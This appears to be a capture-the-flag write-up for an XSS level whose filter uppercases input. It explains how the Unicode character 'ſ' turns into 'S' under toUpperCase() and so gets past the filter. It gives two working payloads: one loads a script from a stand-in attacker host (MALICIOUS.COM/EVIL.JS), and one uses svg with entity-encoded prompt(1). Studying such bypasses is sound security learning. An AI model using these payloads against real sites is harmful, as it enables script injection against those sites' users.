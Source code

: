 This level will turn everything to uppercase and replace strings which seems like a starting tag to something else.

We need to use other tags here to achieve XSS, but the filter has stopped us.
What I learned here is that we can bypass the filter by abusing `toUpperCase()` function.

The function will turn every character to their uppercase equivalent which listed in Unicode Character Database.

But I didn't find a way to list the equivalents efficiently.

According to the write-ups, the character "ſ" will be transformed to "S" when it's put into `toUpperCase()` function.

And we can exploit that to create `<script>` tag since html isn't case-sensitive.

Here comes the second challenge, the contents in tags are also turn into uppercase.
As far as I know, there are two ways to get XSS here:
1. Create a `<script>` tag and set `src` to external evil site to load malicious js file, since URLs are case-insensitive.
2. Use `<svg>` again, because the content of `<script>` tag can be XML Entity Encoded, and it doesn't matter if the "X" is uppercase.

Payload 1:
```html
<!-- ſ is already tranformed -->
<ſCRIPT SRC="HTTPS://MALICIOUS.COM/EVIL.JS"></SCRIPT>
```

Payload 2:
```javascript
<!-- The entities are 'prompt(1)', and the <svg> tag is automatically ended by browser. -->
<ſVG><ſCRIPT>&#x70;&#x72;&#x6F;&#x6D;&#x70;&#x74;&#x28;&#x31;&#x29;</SCRIPT>
```